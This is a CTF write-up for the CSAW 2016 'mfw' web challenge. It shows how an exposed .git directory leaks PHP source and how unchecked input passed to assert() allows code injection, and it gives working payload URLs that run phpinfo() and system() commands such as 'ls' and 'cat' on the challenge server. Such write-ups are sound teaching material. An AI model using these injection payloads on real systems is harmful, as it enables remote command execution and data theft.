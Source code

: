 # CSAW 2016 Quals
# mfw 
#### Cassandra Stavros -- USF Whitehatter's Computer Security Club
#### web -- 125 points
## Description

Hey, I made my first website today. It's pretty cool and web7.9.

http://web.chal.csaw.io:8000/

## Solution
The website gives us the following information:
I wrote this website all by myself in under a week!

I used:

* Git
* PHP
* Bootstrap
---
From the html source code, we can see that there is a hidden flag.php page:
![screen shot](https://cloud.githubusercontent.com/assets/22091364/18804797/22dd372c-81ce-11e6-96b0-a034f3d2d970.jpg)

The website author also hints that he used the above sources to create the website. A quick check of the challenge website reveals that they used github as the source control repository. We can use the publically exposed .git/ directory to retreive the website source code:

    http://web.chal.csaw.io:8000/.git/

Information security professionals warn that publicly revealing a website's source code leaves it open to vulnerabilities (https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/).

We can use this publically exposed .git/ directory to retreive the website source code.
We used `wget` to download that .git/ directory (or use curl for Mac users):

    wget --mirror -I .git http://web.chal.csaw.io:8000/.git/
---
Now that we have the .git/ directory, we can explore the files in the Git repository. 

By typing in the following command we can get the status of proposed and deleted changes:

    $ git status | head -n 10
    
Which retrieves the following file statuses:

    deleted:    index.php
    deleted:    templates/about.php
    deleted:    templates/contact.php
    deleted:    templates/flag.php
    deleted:    templates/home.php
---

we ran `git checkout -- ` to obtain the source files from the git repo

Next, we looked  at the current files in the directory:

    $ ls

Which shows that the following files exist:

    index.php
    templates
---

We examined the index.php file and found that it used assert. We also discovered that the $file variable is created from unchecked user input, namely the $_GET['page']. We can use $file to command inject the assert statement.

    <?php

    $file = "templates/" . $page . ".php";

    // I heard '..' is dangerous!
    assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

    // TODO: Make this look nice
    assert("file_exists('$file')") or die("That file doesn't exist!");

    ?>

Per aaraonasterling on StackOverflow: 
>The rule of thumb which is applicable across most languages (all that I vaguely know) is that an assert is used to assert that a >condition is always true whereas an if is appropriate if it is conceivable that it will sometimes fail. (http://stackoverflow.com/questions/4516419/should-i-be-using-assert-in-my-php-code#4516444)

With this in mind, we knew the way to capture the flag was to use `assert` to our advantage. First we tried some system commands through the browser, such as `http://web.chal.csaw.io:8000/?page=home%27!=0);//` and retrieved the "Detected hacking attempt!" web page.

---    

Next we pulled up the phpinfo page by injecting by typing in the following commands into the browser window:

    http://web.chal.csaw.io:8000/?page=home%27).%20phpinfo();%20//

Which retrieved all of the information and configuration of the website:

![screen shot](https://cloud.githubusercontent.com/assets/22091364/18820566/aebaa8c0-836c-11e6-949e-5bfa89b3cade.jpg)

Success! we have injected the phpinfo(); command into the script sources on the live web page.

---

We then tried the `system()` call to launch commands on the machine and then We tried the `ls` command to list the directory contents with `view-source:http://web.chal.csaw.io:8000/?page=home%27).%20system(%22ls%20-lah%22);%20//`:

![screen shot](https://cloud.githubusercontent.com/assets/22091364/18804401/47677144-81c8-11e6-9b6a-e766fa952723.png)

As we can see, the directory contains a .git/ folder, a templates/ folder and the index.php source.

---

We explored the templates/ folder by using `http://web.chal.csaw.io:8000/?page=home%27).%20system(%22ls%20-lah%20templates%22);%20//`:

![screen shot](https://cloud.githubusercontent.com/assets/22091364/18804405/477075b4-81c8-11e6-9405-21acd8aee0db.png)

Within this directory we saw flag.php. We examined flag.php next.

---

Lastly, we used the cat command to print out the flag.php contents. We were still in the home directory, so we used the relative path `templates/flag.php` through `http://web.chal.csaw.io:8000/?page=home%27).%20system("cat%20templates/flag.php")%20//`:

![screen shot](https://cloud.githubusercontent.com/assets/22091364/18804402/4769ba94-81c8-11e6-988d-3f066bad6cc6.png)

*Many thanks to prole for helping me edit this write-up*

